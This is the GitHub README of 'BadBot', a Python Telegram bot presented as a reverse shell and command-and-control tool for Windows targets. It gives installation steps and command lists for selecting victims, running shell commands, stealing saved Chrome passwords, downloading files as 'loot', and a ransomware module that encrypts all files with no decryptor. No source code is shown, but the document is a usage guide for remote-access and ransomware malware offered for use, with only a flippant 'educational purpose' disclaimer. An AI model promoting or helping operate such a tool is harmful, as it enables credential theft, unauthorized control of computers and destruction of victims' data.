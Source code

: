 # The Badbot Project By Aman Singh
![GitHub Logo](/badBot.ico) 
# Badbot
## Description
BadBot is a simple telegram bot written in python. It provides a reverse shell which can be use to command and control
any windows target machine. it also provides post exploitation like: -
1. chrome passoword extraction
2. image view 
3. document download 

It also gives some basic web application scanning tools like: - 
1. tracert 
2. dnslookup
3. nping 
4. whois
5. pagelinks
6. zone transfer

## Installation
***step 1:*** make sure that you have python 3 installed already on your pc.

***step 2:*** type command pip install python3 -m pip install requirements.txt

***step 3:*** edit the config file for changes 

```python
api = '<Your api Key>'
telegram_chat_id = '<your telegram Bot ID>'
```
***step 4:*** create a loot folder inside your main directory

***step 5:*** run command: python badBod.py

> It is always recommended to create an executable before running this application avoid some bugs...

## how to use

after running badBot.py you can directly got to telegram app and start sending commands to it.

***MAIN COMMANDS :-***
```telegram
/start - say hello to BadBot
/listen - start listening for targets(blocking message)
/client - list all the available targets
/select - select a target eg.(/select 1)
/rst - restart bot server 
```
>you can directly send shell commands as messages

***POST EXPLOIT COMMANDS :-***
```
/image - download and view an image eg.(/image file.jpg)
/download - document download eg.(/download file.doc)
/cpass - extract saved chrome passwords
/loot - check all your loots
/lootera - download a loot file eg.(/loot filename.ext)
```

***WEB APP RECON :-***
```
/seturl - set a target website
/geturl - check current target website
/tracert - trace route
/dnslookup - find dns record for a domain
/nping - test connectivity to a host
/whois - determine registered owner
/pagelinks - dump all links from the webpage
/zonetransfer - test for zone transfer 
/help - view this menu
```
***RANSOMWARE MODULE COMMANDS :-***
```
/set_password - assign password for your encryptor
/get_keys - retrieve password salt and key
/keygen - generate keys (if no password then random key)
/encrypt - start encrypting files
```
***!!!!WARNING BEFORE USE RANSOMWARE!!!!***

- This module will encrypt all your files.

- Decrypting module is not available (in development). 

- keys are saved in loot directory with corresponding ip and hostname.

- If anything goes wrong then developer of this project is not resposible..

## Conclusion
>this bot is only meant for educational purpose. So, please don't try to hack your girlfriend's / boyfriend's account with this application
